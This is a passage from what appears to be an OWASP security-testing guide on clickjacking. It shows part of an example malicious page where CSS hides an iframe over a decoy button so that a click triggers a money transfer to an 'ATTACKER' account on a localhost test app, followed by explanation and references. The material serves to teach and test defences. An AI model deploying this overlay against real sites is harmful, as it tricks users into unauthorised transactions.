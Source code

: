                     margin-left: 500px;
                }
                #clickjacking
                {
                    position: absolute;
                    left: 172px;
                    top: 60px;
                    filter: alpha(opacity=0);
                    opacity:0.0
                }
            //--></style>

        </head>
        <body>
            <div id="content">
                <h1>www.owasp.com</h1>
                <form action="http://www.owasp.com">
                    <input type="submit" class="button" value="Click and go!">
                </form>
            </div>

                    <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                    </iframe>
        </body>
    </html>

With the help of CSS (note the \#clickjacking block) we can mask and
suitably position the iframe in such a way as to match the buttons. If
the victim click on the button "Click and go\!" the form is submitted
and the transfer is completed.

![clickjacking_example_malicious_page_3.png](clickjacking_example_malicious_page_3.png
"clickjacking_example_malicious_page_3.png")

The example presented uses only basic clickjacking technique, but with
advanced technique is possible to force user filling form with values
defined by the attacker.

## Tools

  - Context Information Security: "Clickjacking Tool" -
    <http://www.contextis.com/research/tools/clickjacking-tool/>

## References

**OWASP Resources**

  - [Clickjacking](Clickjacking "wikilink")

**Whitepapers**

  - Marcus Niemietz: "UI Redressing: Attacks and Countermeasures
    Revisited" - <http://ui-redressing.mniemietz.de/uiRedressing.pdf>
  - "Clickjacking" - <https://en.wikipedia.org/wiki/Clickjacking>
  - Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson:
    "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on
    Popular Sites" -
    <http://seclab.stanford.edu/websec/framebusting/framebust.pdf>
  - Paul Stone: "Next generation clickjacking" -
    <https://media.blackhat.com/bh-eu-10/presentations/Stone/BlackHat-EU-2010-Stone-Next-Generation-Clickjacking-slides.pdf>